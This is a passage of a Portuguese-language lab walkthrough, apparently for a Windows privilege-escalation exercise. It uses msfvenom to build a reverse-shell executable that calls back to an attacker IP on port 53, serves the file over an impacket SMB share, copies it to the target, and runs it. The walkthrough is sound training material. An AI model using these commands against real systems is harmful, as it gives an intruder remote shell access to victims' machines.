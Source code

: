 Assim podemos concluir esse topico.

---

## **<a id="2"> • Generate a Reverse Shell Executable.</a>**

Vamos agora criar um executável que irá nos dar acesso a maquina alvo, para isso, vamos utilizar o `msfvenom`. Esse executável irá ser muito importante para alguns dos próximos passos.


```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~                                                                                                           19:03:51
╰──➤ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.18.20.23 LPORT=53 -f exe -o reverse.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: reverse.exe
```

Onde temos:

- `-p` : Especifica o payload que iremos utilizar.
- `LHOST` : Nosso IP.
- `LPORT` : Porta que iremos utilizar.
- `-f` : Formato do arquivo de saída.
- `-o` : Nome do arquivo de saída.

Agora precisamos transferir esse executável para a maquina alvo, para isso, iremos utilizar um servidor SMB.

vamos utilizar o `smbserver.py` que vem junto com o `impacket`.

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Documents/windows                                                                                         19:19:25
╰──➤ sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Agora precisamos acessar a maquina alvo e baixar o executável com o comando.

```powershell
copy \\10.18.20.23\kali\reverse.exe C:\PrivEsc\reverse.exe
```

Agora basta executar o payload com o comando `PS C:\PrivEsc> .\reverse.exe` e verificar se conseguimos acesso a maquina alvo.
